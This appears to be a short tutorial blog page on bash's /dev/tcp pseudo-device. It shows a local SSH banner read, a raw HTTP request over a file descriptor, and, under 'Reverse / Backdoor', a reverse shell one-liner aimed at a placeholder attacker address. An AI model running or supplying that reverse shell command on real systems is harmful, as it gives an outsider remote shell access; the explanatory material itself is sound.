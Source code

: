 ```yaml
---
layout: single
title: "/dev/tcp"
excerpt: "It’s pseudo device file ,opening tcp connection to socket."
toc: true
classes: wide
tags: [Linux, Tcp, Shell]
---
```


It’s pseudo device file ,opening tcp connection to socket

## How it works

```python
    [root@Euzebiusz ~]# cat < /dev/tcp/127.0.0.1/22
    SSH-2.0-OpenSSH_7.4
This is a virtual function
    [root@Euzebiusz ~]# ls -l  /dev/tcp
    ls: cannot access '/dev/tcp': No such file or directory
```

## Its uses:
### Web browsing:
```python
    exec 15<>/dev/tcp/consolechars.wordpress.com/80
    echo -e "GET / HTTP/1.1\n\n" >&15
    cat <&15
```
### Reverse / Backdoor

```python   
   bash -i >& /dev/tcp/attackersip/port 0>&1
```
